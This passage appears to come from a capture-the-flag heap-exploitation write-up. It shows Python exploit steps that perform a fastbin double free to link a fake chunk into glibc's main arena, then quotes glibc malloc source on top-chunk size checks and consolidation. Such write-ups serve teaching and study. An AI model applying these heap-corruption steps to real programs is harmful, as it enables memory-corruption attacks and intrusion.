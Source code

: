 ![](https://i.imgur.com/RCxFcu6.png)

- request two more chunks overwriting 0x61 size field into the main arena.
```python
malloc(0x28, b"C"*8)  
malloc(0x28, b"D"*8)
```

- link the fake main arena chunk into the 0x60 fastbin.
```python
malloc(0x58, b"X"*8)  
malloc(0x58, b"Z"*8)

free(b"5")  
free(b"6")  
free(b"5")
```

- now before we do the next part lets talk about some glibc malloc source code:
```c
4355       victim = av->top;  
4356       size = chunksize (victim);  
4357  
4358       if (__glibc_unlikely (size > av->system_mem))  
4359         malloc_printerr ("malloc(): corrupted top size");  
4360  
4361       if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))  
4362         {  
4363           remainder_size = size - nb;  
4364           remainder = chunk_at_offset (victim, nb);  
4365           av->top = remainder;  
4366           set_head (victim, nb | PREV_INUSE |  
4367                     (av != &main_arena ? NON_MAIN_ARENA : 0));  
4368           set_head (remainder, remainder_size | PREV_INUSE);  
4369  
4370           check_malloced_chunk (av, victim, nb);  
4371           void *p = chunk2mem (victim);  
4372           alloc_perturb (p, bytes);  
4373           return p;  
4374         }  
4375  
4376       /* When we are using atomic ops to free fast chunks we can get  
4377          here for all block sizes.  */  
4378       else if (atomic_load_relaxed (&av->have_fastchunks))  
4379         {  
4380           malloc_consolidate (av);  
4381           /* restore original bin index */  
4382           if (in_smallbin_range (nb))  
4383             idx = smallbin_index (nb);  
4384           else  
4385             idx = largebin_index (nb);  
4386         }
```
